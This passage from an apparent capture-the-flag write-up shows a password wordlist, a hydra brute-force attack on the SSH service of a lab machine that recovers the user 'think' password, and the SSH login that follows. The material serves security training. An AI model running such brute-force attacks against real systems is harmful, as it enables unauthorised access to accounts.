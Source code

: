 ```console
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```

Now we can try using this wordlist to attack the ssh service using a brute force attack, again using `hydra`

```consolse
┌──(kali㉿kali)-[~/Lookup]
└─$ hydra -l think -P wordlist.txt ssh://10.10.38.13                                                                                           
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-06 14:51:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.38.13:22/
[22][ssh] host: 10.10.38.13   login: think   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-06 14:52:04
```

Now that we have the password of think's account we can login into it via ssh

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ ssh think@10.10.38.13              
think@10.10.38.13's password:
.............
think@lookup:~$ 
```
